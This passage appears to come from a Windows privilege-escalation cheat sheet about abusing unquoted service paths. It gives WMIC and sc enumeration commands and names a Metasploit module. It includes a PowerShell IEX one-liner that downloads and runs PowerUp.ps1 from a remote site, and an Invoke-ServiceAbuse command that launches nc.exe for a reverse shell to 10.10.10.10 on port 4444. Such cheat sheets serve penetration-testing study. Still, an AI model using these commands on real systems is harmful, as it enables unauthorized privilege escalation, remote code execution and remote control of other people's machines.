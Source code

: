 - Check if service has auto start flag, If you decided to restart machine

  ```powershell
  wmic service where caption="Serviio" get name, caption, state, startm ode
  ```

- Restart Machine

  ```powershell
  shutdown /r /t 0
  ```

  

## Unquoted Service Paths

The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.

```
# Using WMIC
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

# Using sc
sc query
sc qc service name

# Look for Binary_path_name and see if it is unquoted.
```

##### Example

For `C:\Program Files\something\legit.exe`, Windows will try the following paths first:

- `C:\Program.exe`
- `C:\Program Files.exe`



##### Exploits

- Metasploit exploit : `exploit/windows/local/trusted_service_path`
- PowerUp exploit

```
# find the vulnerable application
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

...
[*] Checking for unquoted service paths...
ServiceName   : BBSvc
Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
...

# automatic exploit
Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
```
